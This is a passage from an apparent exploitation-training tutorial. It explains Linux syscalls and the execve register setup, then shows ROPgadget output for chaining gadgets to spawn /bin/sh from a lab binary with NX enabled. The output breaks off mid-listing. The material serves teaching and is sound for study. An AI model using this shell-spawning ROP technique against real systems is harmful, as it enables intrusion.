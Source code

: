 Now, some combination of a subset of these 12307 gadgets should surely yield us
a shell. Before we start mixing and matching, lets take an aside to discuss
Linux syscalls.

## Linux Syscalls

Linux system calls or syscalls are interfaces between the user space application
and the Linux kernel. Functionality performed by the Linux kernel can be invoked
by placing parameters into the right registers and passing control to the
interrupt vector 0x80 using the `int 0x80` opcode. Typically, this is not done
by the program directly but by calling glibc wrappers.

We will not go too deep into describing how the system calls work and go
straight to the system call that interests us the most: execve. The execve
system call runs an executable file within the context of the current process.

If we take a look at the libc function, we get the following signature:

`int execve(char const *path, char const *argv[], char const *envp[]);`

Typically, we invoke this function in the following manner to spawn shells.

`execve("/bin/sh", {0}, {0})`

If we take a look at the syscall reference located [here][6], we can see that
some parameters are expected in the eax, ebx, ecx, and edx registers.

1. eax - holds the number of the syscall to be called
2. ebx - a pointer to the string containing the file name to be executed
3. ecx - a pointer to the array of string pointers representing argv
4. edx - a pointer to the array of string pointers representing envp

For our purposes, the value that each of the registers should contain are:

```
eax = 0xb
ebx = "/bin/sh"
ecx = memory address -> 0
edx = memory address -> 0
```

## Generating the ROP Chain

Automatically finding the ROP gadgets to perform the `execve` syscall can be
done by ROPgadget. It actually even generates the the output as a python script
that you can embed into the skeleton.

```shell
ubuntu@ubuntu-xenial:/vagrant/lessons/6_bypass_nx_rop/build$ ROPgadget --binary 1_staticnx --ropchain
... snip ...
ROP chain generation
===========================================================

- Step 1 -- Write-what-where gadgets

	[+] Gadget found: 0x8050fb5 mov dword ptr [esi], edi ; pop ebx ; pop esi ; pop edi ; ret
	[+] Gadget found: 0x8048453 pop esi ; ret
	[+] Gadget found: 0x80484a0 pop edi ; ret
	[-] Can't find the 'xor edi, edi' gadget. Try with another 'mov [r], r'

	[+] Gadget found: 0x805495b mov dword ptr [edx], eax ; ret
	[+] Gadget found: 0x807299a pop edx ; ret
	[+] Gadget found: 0x80bbb46 pop eax ; ret
	[+] Gadget found: 0x80493e3 xor eax, eax ; ret

- Step 2 -- Init syscall number gadgets

```

[1]: ./src/1_staticnx.c
[2]: ./build/1_staticnx
[3]: ./scripts/1_skeleton.py
[4]: ./scripts/2_ropexploit.py
[5]: ./scripts/3_brokenrop.py
[6]: http://syscalls.kernelgrok.com/